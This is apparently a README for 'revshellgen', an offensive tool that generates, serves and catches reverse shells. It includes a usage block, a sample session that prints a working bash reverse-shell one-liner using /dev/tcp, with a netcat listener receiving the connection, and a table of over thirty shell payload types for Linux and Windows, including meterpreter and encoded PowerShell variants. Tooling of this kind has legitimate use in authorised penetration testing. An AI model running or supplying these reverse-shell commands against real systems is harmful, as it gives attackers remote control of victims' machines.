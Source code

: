 # Reverse Shell Generator

Simple script to generate, server and listen for reverse shells.
This is a fork of @cwinfosec revshellgen

## Usage

```
usage: revshellgen [-h] [-i IPADDR] [-p PORT] [-t SHELL_TYPE] [-e {base64,url}] [-l] [-L]
                   [-s]

revshellgen -i 127.0.0.1 -p 4444 -t bash

options:
  -h, --help            show this help message and exit
  -i IPADDR, --ipaddr IPADDR
                        IP address or interface to connect back to
  -p PORT, --port PORT  Port to connect back to
  -t SHELL_TYPE, --type SHELL_TYPE
                        Type of reverse shell to generate
  -e {base64,url}, --encode {base64,url}
                        Encode reverse shell
  -l, --list            List available shell types
  -L, --listen          Start a listener
  -s, --serve           Serve reverse shell
```

## Features

-   Automatically copy reverse shell into your clipboard using osc52
-   Can start listeners automatically
-   Can serve files on the web and copies download command to your clipboard
-   Supports usage of interfaces and domains rather than IP addresses

```
❯  ./revshellgen -i eth0 -t bash -L
[*] Generated reverse shell
[+] Contents copied to clipboard
bash -c "bash -i >& /dev/tcp/172.17.0.2/4444 0>&1"

[*] Start listener
rlwrap -cAr nc -lvnp 4444

[+] Listening on 4444
Connection from 172.17.0.2:34572
pwnpad@test:~/shared/revshellgen[pwnpad@test revshellgen]$ ls
ls
LICENSE
README.md
revshellgen
pwnpad@test:~/shared/revshellgen[pwnpad@test revshellgen]$ Exiting.
```

### Shell Types

| Type      | Description                                        | Platform |
| --------- | -------------------------------------------------- | -------- |
| asp       | ASP stageless reverse shell                        | Windows  |
| bash      | Bash reverse shell                                 | Linux    |
| java      | Java reverse shell                                 | Linux    |
| jsp       | JSP stageless reverse shell                        | Generic  |
| lin       | Linux stageless reverse shell                      | Linux    |
| lin32     | 32-bit Linux stageless reverse shell               | Linux    |
| lin-met   | Linux stageless meterpreter reverse shell          | Linux    |
| lin32-met | 32-bit Linux stageless meterpreter reverse shell   | Linux    |
| nc        | Netcat reverse shell                               | Linux    |
| nc-mkfifo | Netcat mkfifo reverse shell                        | Linux    |
| nc-win    | Windows Netcat reverse shell                       | Windows  |
| ncat      | Ncat reverse shell                                 | Linux    |
| ncat-udp  | Ncat UDP reverse shell                             | Linux    |
| ncat-win  | Windows Ncat reverse shell                         | Windows  |
| node      | NodeJS reverse shell                               | Linux    |
| perl      | Perl reverse shell                                 | Linux    |
| perl-win  | Windows Perl reverse shell                         | Windows  |
| php       | PHP reverse shell                                  | Generic  |
| ps        | Powershell reverse shell                           | Windows  |
| ps-b64    | Encoded Powershell reverse shell                   | Windows  |
| py        | Python reverse shell                               | Linux    |
| py-win    | Windows Python reverse shell                       | Windows  |
| ruby      | Ruby reverse shell                                 | Linux    |
| ruby-win  | Ruby reverse shell                                 | Windows  |
| socat     | Socat reverse shell                                | Linux    |
| telnet    | Telnet reverse shell                               | Linux    |
| war       | War stageless reverse shell                        | Generic  |
| win       | Windows stageless reverse shell                    | Windows  |
| win32     | 32-bit Windows stageless reverse shell             | Windows  |
| win-met   | Windows stageless meterpreter reverse shell        | Windows  |
| win32-met | 32-bit Windows stageless meterpreter reverse shell | Windows  |
